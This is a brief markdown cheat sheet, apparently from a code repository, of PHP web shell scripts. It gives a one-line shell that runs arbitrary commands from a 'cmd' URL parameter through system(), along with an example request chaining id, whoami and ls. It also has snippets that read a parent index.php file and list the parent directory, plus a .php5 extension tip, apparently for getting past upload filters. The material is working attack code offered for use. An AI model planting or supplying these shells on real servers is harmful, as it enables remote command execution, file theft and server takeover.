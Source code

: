 # php web shell scripts

## basic
{url}/file.php?cmd=id;whoami;ls
```php
<?php
    echo system($_GET["cmd"]);
?>   
```

## cat file
```php
echo file_get_contents('../index.php')
?>```


## ls dir
```php
<?php
function listFilesInParentDir($dir) {
    $directoryIterator = new DirectoryIterator($dir);
    foreach ($directoryIterator as $file) {
        // if ($file->isFile()) {
            echo $file->getFilename() . PHP_EOL;
        // }
    }
}
$parentDir = realpath(__DIR__ . '/../');
listFilesInParentDir($parentDir);
?>
```

## alternative file extensions
.php5
